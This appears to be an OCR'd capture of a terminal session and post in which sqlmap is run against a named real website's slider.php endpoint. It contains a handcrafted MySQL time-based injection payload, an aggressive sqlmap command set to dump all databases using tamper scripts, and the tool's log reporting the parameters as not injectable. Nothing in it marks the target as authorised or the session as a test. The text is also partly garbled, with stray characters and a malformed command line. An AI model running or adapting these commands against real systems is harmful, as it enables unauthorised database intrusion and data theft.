 sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --level=3 --risk=3
limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(100000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --random-agent --level 5 --risk 3 --hex --time-sec=100 --tamper=between --dbs --dump-all --dbms="mysql" --threads=5 --ignore-code=500 --tamper=between -b -o --ignore-code=999 --parse-error --hex





ertgh43564564root@kali:~# sqlmap --url 'https://www.qaisare.com/includes/slider.php' --data=limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT
[1] 4210
[2] 4211
root@kali:~#         ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:03:26

[16:03:26] [INFO] testing connection to the target URL
[16:03:26] [INFO] testing if the target URL content is stable
[16:03:27] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[16:03:27] [INFO] testing if POST parameter 'limit' is dynamic
[16:03:27] [WARNING] POST parameter 'limit' does not appear to be dynamic
[16:03:28] [WARNING] heuristic (basic) test shows that POST parameter 'limit' might not be injectable
[16:03:28] [INFO] testing for SQL injection on POST parameter 'limit'
[16:03:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:03:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:03:31] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[16:03:32] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[16:03:33] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[16:03:35] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[16:03:36] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[16:03:36] [INFO] testing 'MySQL inline queries'
[16:03:36] [INFO] testing 'PostgreSQL inline queries'
[16:03:37] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[16:03:37] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[16:03:38] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[16:03:39] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[16:03:40] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[16:03:41] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[16:03:42] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[16:03:44] [INFO] testing 'Oracle AND time-based blind'
[16:03:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[16:04:00] [WARNING] POST parameter 'limit' does not seem to be injectable
[16:04:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')

